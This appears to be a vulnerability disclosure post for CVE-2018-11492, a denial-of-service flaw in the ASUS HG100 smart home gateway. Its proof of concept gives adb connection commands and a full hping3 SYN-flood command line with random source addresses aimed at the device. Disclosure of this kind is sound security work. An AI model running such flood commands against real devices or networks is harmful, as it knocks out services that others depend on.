 ```yaml
---
layout: post
title:  "CVE-2018-11492"
author: Mars Cheng
tags: CVE
---
```


## **<center> ASUS HG100 exists DoS vulnerability </center>**
#### Description:ASUS HG100 devices allow denial of service via an IPv4 packet flood.

#### This vulnerability was discovered by **National Center for Cyber Security Technology (NCCST)**

<div style="text-align: center">
<img src="https://i.imgur.com/S5EAPKv.png"/>
</div>
<br>

---
<br>



## <center>Introduction of ASUS HG100 SmartHome GateWay</center>
<div style="text-align: center">
<img src="https://i.imgur.com/xkfNTTu.png"/>
</div>



| Length x width x height | Weight | Wireless connection |
| -------- | -------- | -------- |
| 152 x 67 x 167 mm     | 256g     | WiFi 802.11b/g/n ; ZigBee PRO ; BlueTooth 4.0   |

---

## <center>Proof of Concept</center>



### 1.Connect to ASUS Gateway HG100 with ADB

```
adb connect 192.168.0.108
adb shell
```
![](https://i.imgur.com/lVNHkeH.png)



### 2.Execute IP v4 flood attack
* Use Hping3 tool to execute DoS attack
```
hping3 -V -c 1000000 -d 120 -S -w 64 --flood --rand-source 192.168.0.108
```
* Confirm packets status
<div style="text-align: center">
<img src="https://i.imgur.com/cGHgMYi.png"/>
</div>


### 3.Confirm device status

* Unable to connect to ADB, and DoS attack success.
<div style="text-align: center">
<img src="https://i.imgur.com/CUnM7mQ.png"/>
</div>


### Timeline
*  February 6, 2018 Reported to ASUS Security



### Reference
1. https://cve.mitre.org/cgi-bin/cvename.cgi?name=2018-11492

